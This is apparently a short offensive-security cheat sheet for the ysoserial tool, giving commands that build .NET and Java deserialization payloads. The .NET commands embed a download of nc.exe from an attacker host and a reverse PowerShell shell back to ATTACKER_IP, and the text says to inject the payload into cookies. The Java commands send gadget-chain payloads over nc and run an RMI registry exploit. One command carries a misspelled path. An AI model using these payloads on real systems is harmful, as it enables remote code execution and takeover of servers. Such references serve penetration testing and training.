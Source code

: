 # Ysoserial Deserialization Payload Generator

## Languages supported: .NET ASP, Java

## Repos: 

### https://github.com/frohoff/ysoserial (Java)

### https://github.com/pwntester/ysoserial.net (.NET ASP)

### Usage:

## .NET Deserialization

#### 1) unzip the zipped ysoserial file if you have downloaded it from the releases of the repository

#### 2) Then
 
    .\ysoserial.exe -f JavaScriptSerializer -o base64 -g ObjectDataProvider -c "cmd /c curl ATTACKER_IP/nc.exe -o C:\ProgramData\nc.exe"

    .\ysoserial.exe -f JavaScriptSerializer -o base64 -g ObjectDataProvider -c "cmd /c C:\ProrgamData\nc.exe -e powershell ATTACKER_IP PORT"

### Inject the payload somewhere that uses serialized data like cookies (example)

## Java

    java -jar ysoserial.jar CommonsCollection1 calc.exe | xxd

    java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin

    nc 10.10.10.10 1099 < groovypayload.bin

    java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe


